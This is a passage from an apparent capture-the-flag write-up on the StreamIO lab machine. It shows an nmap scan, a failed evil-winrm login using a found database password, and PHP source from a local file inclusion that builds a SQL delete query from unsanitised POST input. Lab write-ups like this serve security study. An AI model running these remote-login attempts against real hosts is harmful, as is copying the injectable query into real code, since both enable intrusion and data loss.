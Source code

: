 We can surley connect using winrm because the port is open. 

```bash
└─$ nmap -p 5985 10.10.11.158
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-11 18:59 BST
Nmap scan report for streamIO.htb (10.10.11.158)
Host is up (0.19s latency).

PORT     STATE SERVICE
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 0.46 seconds

```

```bash
└─$ evil-winrm -i 10.10.11.158 -u db_admin -p B1@hx31234567890

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError

Error: Exiting with code 1

```
Oppss! Creds are non valid. 

Went back again to the LFI, I was missing it. I didn't copy the whole decoded base64

```php


<h1>Movie managment</h1>
<?php
if(!defined('included'))
	die("Only accessable through includes");
if(isset($_POST['movie_id']))
{
$query = "delete from movies where id = ".$_POST['movie_id'];
$res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
}
$query = "select * from movies order by movie";
$res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
while($row = sqlsrv_fetch_array($res, SQLSRV_FETCH_ASSOC))
{
?>

<div>
	<div class="form-control" style="height: 3rem;">
		<h4 style="float:left;"><?php echo $row['movie']; ?></h4>
		<div style="float:right;padding-right: 25px;">
			<form method="POST" action="?movie=">
				<input type="hidden" name="movie_id" value="<?php echo $row['id']; ?>">
				<input type="submit" class="btn btn-sm btn-primary" value="Delete">
			</form>
		</div>
	</div>
```